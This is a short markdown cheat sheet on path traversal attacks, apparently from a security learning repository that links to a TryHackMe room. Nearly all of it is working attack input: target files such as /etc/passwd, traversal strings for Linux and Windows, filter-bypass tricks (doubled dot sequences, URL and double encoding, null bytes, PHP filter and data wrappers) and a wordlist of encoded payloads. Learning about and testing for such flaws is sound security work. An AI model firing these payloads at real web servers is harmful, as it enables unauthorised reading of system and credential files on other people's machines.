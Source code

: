 # Path Traversal Cheat Sheet

#### Common Paths to read
```txt
/etc/passwd
/var/log/apache2/access.log
```
___
#### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
1. Sequence block bypass >> ....//....//....//....//etc/passwd
2. Sequence block bypass2 >> ..//..//..//..//etc/passwd
3. Encoding ../ >> %2e%2e%2f
4. Absolute path >> /var/www/images/../../../etc/passwd
5. Absolute path2 >> /var/www/html/..//..//..//etc/passwd
6. Using null byte >> ../../../etc/passwd%00.png
7. Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
8. Using Data wrappers >> data:text/plain,<?php%20phpinfo();%20?>
#### Wordlist
```txt
/etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
/var/www/images/../../../etc/passwd%00
/var/www/images/..//..//..//..//etc/passwd%00
/var/www/images/....//....//....//....//etc/passwd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd%00
```
## To learn
https://tryhackme.com/r/room/filepathtraversal

